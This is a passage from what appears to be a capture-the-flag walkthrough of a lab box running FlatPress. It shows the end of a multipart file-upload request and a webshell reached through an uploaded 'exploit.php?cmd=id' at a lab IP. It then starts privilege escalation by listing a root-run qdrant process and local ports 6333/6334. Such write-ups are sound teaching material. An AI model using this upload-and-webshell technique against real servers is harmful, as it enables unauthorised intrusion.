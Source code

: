 ```bash
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload"

Upload
-----------------------------104014062942592053731161315153--

```
Then all we ned to do is go to the uploaded exploit at:
```bash
http://10.0.160.225/fp-content/attachs/exploit.php?cmd=id
```
And you'll have a webshell.

### Privilege Escalation

Once you have command execution a simple privilege escalation was performed, running `ps -aux` command we can see that there is a process called `qdrant`:
```bash
www-data@flatscape:/var/www/html/fp-content/attachs$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2472   872 pts/0    Ss   17:31   0:00 tini -- /entrypoint.sh supervisord -c /etc/supervisord.conf
root           7  0.0  0.0   3924  2952 pts/0    S+   17:31   0:00 /bin/bash /entrypoint.sh supervisord -c /etc/supervisord.conf
root          20  0.0  0.3  36996 31484 pts/0    S+   17:31   0:00 /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisord.conf
root          21  0.0  0.1  19032 14864 pts/0    S    17:31   0:00 /usr/bin/python3 /usr/bin/pidproxy /var/run/apache2/apache2.pid
root          22  0.0  0.9 146704 76828 pts/0    Sl   17:31   0:00 qdrant --config-path /etc/qdrant.yaml
```
Also by checking the open ports, there is a TCP-6333 open port:
```bash
www-data@flatscape:/var/www/html/fp-content/attachs$ ss -tulnp
Netid       State        Recv-Q       Send-Q              Local Address:Port                Peer Address:Port       Process       
udp         UNCONN       0            0                      127.0.0.11:50939                    0.0.0.0:*                        
tcp         LISTEN       0            128                     127.0.0.1:6334                     0.0.0.0:*                        
tcp         LISTEN       0            1024                    127.0.0.1:6333                     0.0.0.0:*                        
tcp         LISTEN       0            4096                   127.0.0.11:39713                    0.0.0.0:*                        
```